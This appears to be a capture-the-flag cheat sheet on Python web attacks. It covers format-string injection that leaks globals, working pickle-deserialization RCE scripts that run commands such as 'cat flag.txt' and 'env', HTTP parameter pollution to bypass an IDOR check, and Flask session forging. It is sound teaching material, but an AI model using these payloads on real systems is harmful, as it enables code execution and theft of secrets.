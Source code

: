 # Python

Always look out for `str.replace()` because yes...

## Format string injection

Format string injection usually occurs when using `.format()`.

Example:
```py
a = input()
vuln = f'{{{a}}}'.format(random_string='asdf')
```

> `f'{{{a}}}'` resolves to `'{asdf}'`, input being `'asdf'`, which is passed to `'{asdf}'.format()`

> Instead of a single key, a dictionary can also be passed into `.format(**dict)`

The exploit is similar to SSTI RCE, but in this case, we don't have RCE as we cannot execute anything. Rather, we only can leak sensitive secrets (like flags)

1. Get access to a `__globals__` through the dict passed in 
	* `<key>.__init__.__globals__`
2. Access any global variable through `__globals__[name]`

> Note: if the application passes in additional attributes (like `f'{{{a}.code}}.format(**dict)`) that does not exist 
> in a string, you can escape {} and access another "proper" item that has the desired attribute

Payload:

`{item.__init__.__globals__[flag]} {item`

## Pickle unserialize

The pickle module is vulnerable to unsafe deserialization of Python objects.

Exploit:

```py
import base64, os, pickle, subprocess

class RCE:
    def __reduce__(self):
        cmd = 'cat flag.txt'
        a = subprocess.check_output, (cmd,)
        return a

pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled))
```

Note that the exploit below may not work on all systems/challenges.

```py
DEFAULT_COMMAND = ['env']

import pickle
import base64
import requests

#COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    ''' __reduce__ can return either a string or a tuple. If it returns a string, then it should be the name of a global variable. If it returns a tuple, it should be in the following syntax: callable, (args), *object's state (will be passed to __setstate__(), *iterator of items (for list subclasses), *iterator of key-value pairs (for dict subclasses or if the class implements __setitem__()), *(obj, state) to set state of class (overriding __setstate__() if implemented)

    The one we are interested in for RCE is callable, (args)

    This has been implemented below.
    '''

    def __reduce__(self):
        import subprocess
        #import os
        return subprocess.check_output, (DEFAULT_COMMAND,)

def gen_payload():
    payload = bytes.decode(base64.b64encode(pickle.dumps(PickleRce())), 'utf-8')
    return payload

print(gen_payload())
```

Instead of `subprocess.check_output`, we can also use `os.popen().read()`, but note that on Windows, there is an issue serializing the os module which becomes "nt" module for some reason.

## HTTP Parameter Pollution with IDOR Vulnerability

> Example: A flask app which makes an internal API call to a FastAPI app.

```python
uid = request.args.get("uid")  
if(uid == str(current_user.user["id"])):   # MOST IMPORTANT CHECK! 
   # pass the url behind to fastapi
   fullurl = request.url 
   path = fullurl.replace(request.url_root, "").replace("fastapi", "")
   forwardurl = "http://localhost:8000" + path
   app.logger.debug("Forwarded URL to Fastapi: %s", forwardurl)
   r = requests.get(forwardurl)
   if(r.ok):
       try:
           j = r.json()
           msg = j['message']
           return Response(msg, status=200)
```

```python
@app.get("/retrievekey")
async def hpp(uid: str):
    r = db.getkey(uid)
    if(r and r['key']):
        location = "/securenote/" + r['key']
        result = 'You will redirect to your secure URL <a href="' + location + '">here</a>'
        # redirects
    return {"message": html}
```

You may think that Insecure Direct Object Reference (IDOR) is not possible, but it is!

Flask kind of "prefers" the first param while FastAPI "prefers" the last one (if you supply two `?uid=` params).

Hence by doing `retrievekey?uid=[i am authorised] &uid=[admin]`, we can access things which we aren't meant to access.

Resource: https://0xgaurang.medium.com/case-study-bypassing-idor-via-parameter-pollution-78f7b3f9f59d

## Flask Session Token

https://github.com/Paradoxis/Flask-Unsign  

Flask session tokens can be cracked, then resigned, something like JWT.  
> flask session tokens will always seem like the header is the body and the rest junk in jwt.io